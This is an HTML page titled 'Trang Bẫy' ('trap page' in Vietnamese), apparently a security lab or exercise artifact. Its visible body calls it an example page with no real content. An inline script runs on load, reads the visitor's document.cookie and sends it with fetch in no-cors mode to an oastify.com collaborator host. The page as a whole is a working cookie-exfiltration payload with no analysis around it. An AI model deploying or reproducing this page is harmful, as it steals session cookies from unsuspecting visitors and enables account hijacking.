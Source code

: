 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Trang Bẫy</title>
</head>
<script>
    (async function() {
        var userCookies = document.cookie;
        var destinationURL = 'http://4otqlnlzkuzzujpb580ev4be359wxnlc.oastify.com'; 
        try {
            // Gửi yêu cầu GET mà không cần quan tâm đến CORS policy
            await fetch(`${destinationURL}?cookies=${encodeURIComponent(userCookies)}`, {
                method: 'GET',
                mode: 'no-cors' // Sử dụng mode no-cors để tránh vấn đề CORS
            });
        } catch (error) {
            console.error('Error:', error);
        }
        })();
</script>
    
<body>
    <h1>Chào mừng bạn đến với Trang Bẫy</h1>
    <p>Trang này là một ví dụ, không có nội dung thực sự.</p>
</body>
</html>
